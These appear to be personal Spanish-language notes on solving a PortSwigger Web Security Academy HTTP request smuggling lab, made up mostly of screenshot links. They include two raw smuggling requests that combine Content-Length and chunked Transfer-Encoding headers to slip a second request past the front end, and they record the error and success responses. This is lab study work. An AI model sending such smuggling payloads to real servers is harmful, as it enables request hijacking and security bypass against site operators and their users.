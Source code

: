![[Pasted image 20230706181350.png]]

![[Pasted image 20230706181409.png]]

![[Pasted image 20230706181458.png]]

usando el payload sugerido por la respuesta oficial de Burp:

![[Pasted image 20230706181651.png]]

Estoy obteniendo un error 400:

![[Pasted image 20230706181823.png]]


probando este payload pero tampoco funciona:

POST / HTTP/1.1
Host: 0a4c00080445a55482a2e21500ca00c8.web-security-academy.net
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


LO MISMO EL SIGUIENTE PAYLOAD:

POST / HTTP/1.1
Host: 0a4c00080445a55482a2e21500ca00c8.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

9e
GET /404 HTTP/1.1
Host: 0a4c00080445a55482a2e21500ca00c8.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0

intentando de nuevo, request original:

![[Pasted image 20230807201828.png]]

limpiando, cambiando version y metodo, desactivando tambien el Update Length:

![[Pasted image 20230807202132.png]]

agregando el payload:

![[Pasted image 20230807202314.png]]

obtuve un 200 y luego un 404:

![[Pasted image 20230807202404.png]]

![[Pasted image 20230807202419.png]]